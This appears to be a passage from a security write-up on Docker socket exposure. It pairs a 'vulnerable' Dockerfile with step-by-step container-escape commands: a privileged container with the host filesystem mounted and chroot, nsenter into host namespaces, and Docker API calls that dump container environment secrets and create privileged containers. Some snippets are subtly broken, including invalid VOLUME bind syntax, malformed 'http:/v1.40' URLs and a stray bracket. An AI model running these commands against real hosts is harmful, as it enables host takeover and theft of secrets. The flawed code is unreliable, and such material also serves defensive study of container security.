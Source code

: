 ```dockerfile
FROM alpine:3.12

# Vulnerable: Mounting the host's Docker socket into the container
VOLUME ["/var/run/docker.sock:/var/run/docker.sock"]

CMD ["sh"]

```

**Exploitation Process:**

1. **Docker Socket Access:**
Once inside the container, an attacker can interact with the Docker socket directly. The socket file enables HTTP API requests to the Docker daemon:

```bash
# Simple test to verify Docker socket access
curl --unix-socket /var/run/docker.sock http:/v1.40/info

```

2. **Installing Docker Client Tools:**
Attackers typically install the Docker CLI for easier exploitation:

```bash
apk add --update docker

```

3. **Technical Attack Methods:**

a) **Creating a Privileged Container:**
```bash
docker run --privileged -v /:/hostfs alpine:latest chroot /hostfs /bin/sh

```
This command creates a new privileged container with the host's root filesystem mounted, then uses `chroot` to obtain a shell in the host's filesystem context.

b) **Direct Command Execution:**
```bash
nsenter --target 1 --mount --uts --ipc --net --pid -- cmd

```
Using a privileged container with appropriate capabilities, the attacker can use `nsenter` to execute commands directly in the host's namespaces.

c) **API-based Exploitation:**
More sophisticated attacks might interact with the Docker API directly:

```bash
# List all containers including environment variables that might contain secrets
curl -s --unix-socket /var/run/docker.sock http:/v1.40/containers/json?all=1 | jq '.[] | {Id, Names, Image, Env}'

# Create a new privileged container
curl -XPOST --unix-socket /var/run/docker.sock -H "Content-Type: application/json" http:/v1.40/containers/create -d '{"Image":"alpine","HostConfig":{"Privileged":true,"Binds":["/:/host"]},"Cmd":["/bin/sh"]}']

```
